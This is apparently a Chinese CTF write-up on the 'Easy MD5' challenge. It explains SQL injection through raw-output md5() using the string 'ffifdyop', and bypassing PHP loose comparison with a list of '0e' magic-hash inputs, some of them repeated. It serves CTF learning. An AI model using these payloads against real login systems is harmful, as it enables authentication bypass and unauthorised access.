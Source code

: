# wp

## Easy MD5(sql注入+MD5绕过)

1. sql注入中md5绕过

    ```mysql
    select * from 'admin' where password=md5($pass,true)
    ```

    md5(string, raw)

    | 参数 | 描述 |
    |-----|-----|
    | string | 必须。要计算的字符串 |
    | raw | 可选，默认false,32位16进制字符串;True。16位原始二进制字符串 |

    当raw为True时，md5值经过hex转成字符串后为`'or' xxxxx`这样的字符串，则拼接后的sql语句为：

    ```mysql
        select * from `admin` where password='' or 'xxxxx'
    ```

    所以需要保证or后面的值为true，
    - mysql特性:'xxxxx'以非0数字开头即为true
    - 这里提供一个常用的字符串
    `ffifdyop`

2. 代码审计
    - 如下php代码中的比较为弱等于(eg. "==", "!=")，开头相等即可

        ```php
        $a = $GET['a'];
        $b = $_GET['b'];

        if($a != $b && md5($a) == md5($b)){
        // wow, glzjin wants a girl friend.
        ```

        常见MD5碰撞组合

        ```md
        s878926199a                       //原始字符串
        0e545993274517709034328855841020  //md5值
        s155964671a
        0e342768416822451524974117254469
        s214587387a
        0e848240448830537924465865611904
        s214587387a
        0e848240448830537924465865611904
        s878926199a
        0e545993274517709034328855841020
        s1091221200a
        0e940624217856561557816327384675
        s1885207154a
        0e509367213418206700842008763514
        s1502113478a
        0e861580163291561247404381396064
        s1885207154a
        0e509367213418206700842008763514
        s1836677006a
        0e481036490867661113260034900752
        s155964671a
        0e342768416822451524974117254469
        s1184209335a